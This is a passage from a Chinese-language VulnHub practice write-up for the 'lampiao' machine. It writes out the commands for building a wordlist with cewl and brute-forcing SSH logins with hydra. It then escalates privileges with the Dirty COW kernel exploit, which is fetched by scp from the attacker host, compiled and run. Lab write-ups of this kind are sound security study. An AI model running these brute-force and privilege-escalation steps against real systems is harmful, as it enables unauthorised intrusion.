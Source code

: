 ```shell
echo "tiago" > username.txt
echo "Eder" >> username.txt
```

然后利用`cewl` 从网页中尝试生成一份密码字典（这也太叼了把。。学习了

```shell
cewl -w dict.txt http://192.168.85.137:1898/
```



然后用传说中的九头蛇`hydra`进行一下ssh密码爆破

```shell
hydra -L username.txt -P dict.txt -f -e nsr -t 4 ssh://192.168.85.137
```

爆破过程有点慢，感觉相当不适合大规模爆破了

![](vulnhub-练习记录\33.png)

然后就可以ssh登录了可以说思路相当清奇了

## 提升权限

拿到shell之后查看一下版本信息

```shell
tiago@lampiao:~$ uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
tiago@lampiao:~$ cat /etc/lsb-release 
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.5 LTS"
```

14.04的，那就脏牛安排一手

```shell
cd /tmp
scp root@192.168.85.134:/root/dirty.c ./
gcc -pthread dirty.c -o dirty -lcrypt
./dirty
```
